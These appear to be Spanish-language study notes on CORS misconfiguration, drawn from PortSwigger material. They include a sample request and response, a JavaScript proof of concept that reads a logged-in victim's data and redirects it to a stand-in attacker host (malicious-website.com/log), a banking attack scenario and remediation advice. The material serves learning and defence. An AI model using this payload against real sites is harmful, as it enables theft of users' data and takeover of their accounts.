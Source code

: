 https://portswigger.net/web-security/cors

**Same-origin policy** ->  It generally allows a domain to issue requests to other domains, but not to access the responses.
CORS -> Headers shared between domains to allow full cross-origin access.

**Ejemplo práctico de mala implementación de CORS :**

```request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=... (la cookie de sesión del usuario)
```

```request
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
};
```

Envía una solicitud GET a https://vulnerable-website.com/sensitive-victim-data.
req.withCredentials = true asegura que las cookies de sesión del usuario se incluyan en la solicitud.
Cuando recibe la respuesta (this.responseText), redirige al navegador a malicious-website.com/log, enviando los datos sensibles obtenidos en la respuesta como parte de la URL.

**Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains.**

**How to test cors** -> https://zguyun.com/blog/how-to-test-cors-with-postman/

__________________________________________________________________________

Una mala implementación de CORS puede ser un problema grave de seguridad porque permite que un sitio web malicioso realice solicitudes a una API o aplicación web en nombre del usuario sin su conocimiento o consentimiento. Esto puede dar lugar a la filtración de datos sensibles y comprometer la cuenta o los datos del usuario en el servidor. 

### Escenario de peor caso de una mala implementación de CORS

Imagina una aplicación web bancaria (por ejemplo, `https://bank.com`) que expone una API para consultar el saldo, hacer transferencias, actualizar datos de perfil, etc. Supongamos que el servidor tiene una configuración de CORS insegura. Aquí tienes cómo se vería un ataque en este escenario:

1. **Configuración insegura de CORS en el servidor**:
   - La API de `https://bank.com` permite solicitudes CORS desde cualquier origen al reflejar el valor de la cabecera `Origin` en `Access-Control-Allow-Origin`.
   - Además, la cabecera `Access-Control-Allow-Credentials` está configurada en `true`, permitiendo el envío de cookies de sesión o tokens de autenticación en solicitudes CORS.

2. **El usuario inicia sesión en `https://bank.com`**:
   - El usuario se autentica en el sitio y se le asigna una cookie de sesión que autoriza sus solicitudes a la API de `https://bank.com`.

3. **El atacante crea un sitio malicioso**:
   - El atacante crea un sitio malicioso, `https://malicious-website.com`, que contiene un script para acceder a la API de `https://bank.com` usando las credenciales del usuario.

4. **El usuario visita el sitio malicioso**:
   - El usuario visita `https://malicious-website.com` mientras aún está autenticado en `https://bank.com` en otra pestaña o en la misma sesión del navegador.

5. **El sitio malicioso envía una solicitud CORS a la API del banco**:
   - El script en `https://malicious-website.com` realiza una solicitud a `https://bank.com/api/accountDetails`, incluyendo la cookie de sesión del usuario, gracias a `credentials: "include"`.
   - Debido a la configuración insegura de CORS, el servidor en `https://bank.com` acepta la solicitud de `https://malicious-website.com` y responde con los detalles de la cuenta del usuario.

6. **El atacante obtiene datos sensibles del usuario**:
   - El sitio malicioso ahora tiene acceso a la respuesta de la API de `https://bank.com`, que contiene datos confidenciales, como el saldo, transacciones o información personal del usuario.

7. **Posibilidad de operaciones maliciosas**:
   - Si la API permite operaciones como transferencias bancarias o cambios de información, el sitio malicioso podría enviar solicitudes para transferir dinero, actualizar la dirección del usuario, o cualquier otra acción que el usuario autorizado puede realizar.

### Consecuencias de esta configuración insegura:

- **Acceso no autorizado a datos personales**: El atacante puede obtener información sensible, como saldo bancario, historial de transacciones, o cualquier dato expuesto a través de la API.
- **Robo de dinero**: Si la API permite transacciones bancarias, el atacante podría realizar transferencias en nombre del usuario, lo cual tendría un impacto financiero directo.
- **Modificación de datos**: El atacante podría cambiar detalles personales, como el número de teléfono o la dirección, lo cual podría tener repercusiones en el acceso futuro del usuario.
- **Exposición de otras vulnerabilidades**: Si el sistema tiene otras vulnerabilidades (como inyección de SQL o vulnerabilidades de autenticación), el atacante podría explotarlas con más facilidad al tener acceso a la API desde cualquier origen.

### Lecciones de seguridad

Una mala implementación de CORS transforma un sitio potencialmente seguro en un blanco fácil para ataques de sitios externos, comprometiendo la seguridad del usuario y la integridad de la aplicación. Configurar CORS de manera adecuada (limitando `Access-Control-Allow-Origin` a dominios específicos de confianza y evitando `Access-Control-Allow-Credentials` en respuestas con `*`) es crucial para reducir el riesgo de este tipo de ataques.